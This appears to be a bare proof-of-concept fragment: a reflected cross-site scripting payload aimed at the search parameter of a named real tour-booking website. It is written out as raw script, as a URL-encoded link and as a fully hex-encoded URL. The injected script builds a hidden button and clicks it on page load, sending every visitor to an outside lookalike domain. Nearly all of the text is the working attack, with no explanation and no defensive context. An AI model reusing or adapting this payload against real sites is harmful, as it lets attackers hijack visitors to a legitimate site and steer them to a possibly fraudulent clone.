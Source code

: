 [https://www.egypttoursportal.com/search-tours/?s="><script>const hiddenButton=document.createElement("button");hiddenButton.style.display="none";hiddenButton.id = "hiddenRedirectButton";document.body.appendChild(hiddenButton);hiddenButton.addEventListener("click", function () {window.location.href = "https://egypt-tour-portal.vercel.app";});window.onload=function(){document.getElementById("hiddenRedirectButton").click();};</script>
](https://www.egypttoursportal.com/search-tours/?s=%22%3E%3Cscript%3Econst%20hiddenButton%3Ddocument.createElement(%22button%22)%3BhiddenButton.style.display%3D%22none%22%3BhiddenButton.id%3D%22hiddenRedirectButton%22%3Bdocument.body.appendChild(hiddenButton)%3BhiddenButton.addEventListener(%22click%22%2Cfunction()%7Bwindow.location.href%20%3D%22https%3A%2F%2Fegypt-tour-portal.vercel.app%22%3B%7D)%3Bwindow.onload%3Dfunction()%7Bdocument.getElementById(%22hiddenRedirectButton%22).click()%3B%7D%3C%2Fscript%3E)


https://www.egypttoursportal.com/search-tours/?s="%22%3e%3c%73%63%72%69%70%74%3e%63%6f%6e%73%74%20%68%69%64%64%65%6e%42%75%74%74%6f%6e%3d%64%6f%63%75%6d%65%6e%74%2e%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%22%62%75%74%74%6f%6e%22%29%3b%68%69%64%64%65%6e%42%75%74%74%6f%6e%2e%73%74%79%6c%65%2e%64%69%73%70%6c%61%79%3d%22%6e%6f%6e%65%22%3b%68%69%64%64%65%6e%42%75%74%74%6f%6e%2e%69%64%20%3d%20%22%68%69%64%64%65%6e%52%65%64%69%72%65%63%74%42%75%74%74%6f%6e%22%3b%64%6f%63%75%6d%65%6e%74%2e%62%6f%64%79%2e%61%70%70%65%6e%64%43%68%69%6c%64%28%68%69%64%64%65%6e%42%75%74%74%6f%6e%29%3b%68%69%64%64%65%6e%42%75%74%74%6f%6e%2e%61%64%64%45%76%65%6e%74%4c%69%73%74%65%6e%65%72%28%22%63%6c%69%63%6b%22%2c%20%66%75%6e%63%74%69%6f%6e%20%28%29%20%7b%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%2e%68%72%65%66%20%3d%20%22%68%74%74%70%73%3a%2f%2f%65%67%79%70%74%2d%74%6f%75%72%2d%70%6f%72%74%61%6c%2e%76%65%72%63%65%6c%2e%61%70%70%22%3b%7d%29%3b%77%69%6e%64%6f%77%2e%6f%6e%6c%6f%61%64%3d%66%75%6e%63%74%69%6f%6e%28%29%7b%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%68%69%64%64%65%6e%52%65%64%69%72%65%63%74%42%75%74%74%6f%6e%22%29%2e%63%6c%69%63%6b%28%29%3b%7d%3b%3c%2f%73%63%72%69%70%74%3e
